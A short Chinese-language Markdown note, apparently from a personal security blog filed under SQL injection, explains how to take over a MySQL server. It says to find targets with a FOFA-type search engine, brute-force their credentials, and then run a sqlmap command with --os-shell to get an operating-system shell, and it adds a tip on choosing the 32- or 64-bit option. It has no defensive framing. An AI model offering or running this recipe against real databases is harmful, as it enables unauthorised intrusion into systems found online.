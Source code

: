 # sqlmap提权mysql

title: SQL 概述
date: 2021-06-13 22:01:24
comments: true #是否可评论
toc: true #是否显示文章目录
categories: "SQL注入" #分类
tags: SQL注入



用途：在fofa类搜索到目标数据库且爆破用户名密码，可以直接用sqlmap提权

sqlmap -d mysql://root:root@172.16.12.2:3306/mysql --os-shell

![image-20210824182034482](C:\Users\niu\AppData\Roaming\Typora\typora-user-images\image-20210824182034482.png)

按照目标sql的位数选择

32位选择 32位   64位选择32和64的都可以

![image-20210824182219972](C:\Users\niu\AppData\Roaming\Typora\typora-user-images\image-20210824182219972.png)